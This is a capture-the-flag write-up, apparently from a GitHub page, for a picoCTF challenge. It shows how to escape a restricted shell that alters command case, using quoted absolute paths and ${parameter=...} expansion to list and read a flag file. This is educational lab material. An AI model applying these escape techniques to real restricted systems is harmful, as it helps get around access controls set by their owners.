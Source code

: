 ![image](https://github.com/jowp-code/ctf/assets/121969489/3c943006-c290-4caa-abf7-51577be8aa1f)
<br>
<p>Well this sounds like fun, *nix has historically been very strict with input in terms of case, windows on the other hand is less strict about it. I'm expecting a lot of broken commands here.</p>
<br>

```shell
ssh -p 59617 ctf-player@saturn.picoctf.net
```
<br>
<p>I immediately tried to clear my screen, oh boy...</p>
<br>

```shell
Special$ clear
Clear 
sh: 1: Clear: not found
```
<br>
<p>Immediately I can see that standard commands are going to be useless here, so what CAN we do? Well shortcuts are broken because of the restrcitions the shell is placing upon our inputs, I found that I could wrap a command in single quotes like 'pwd', but certain commands were not availble.</p>
<br>

```shell
Special$ 'pwd'
'pwd' 
/home/ctf-player
```
<br>
<p>So let's try quoting the absolute path to the command and they try it again.</p>
<br>

```shell
Special$ '/bin/ls'
'/bin/ls' 
blargh
```
<br>
<p>So we can quote the absolute path to get around the shell restrcitions, we can also do this with cat to read files. First let's see what's inside the blargh folder, and if it's our flag, read it.</p>
<br>

```shell
Special$ '/bin/ls' 'blargh'
'/bin/ls' 'blargh' 
flag.txt
Special$ '/bin/cat' 'blargh/flag.txt'
'/bin/cat' 'blargh/flag.txt' 
picoCTF{REDACTED}
```
<br>
<p>I realized later on that we could also have used 'parameter' to send the command.</p>
<br>

```shell
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat blargh/flag.txt} 
picoCTF{REDACTED}
```
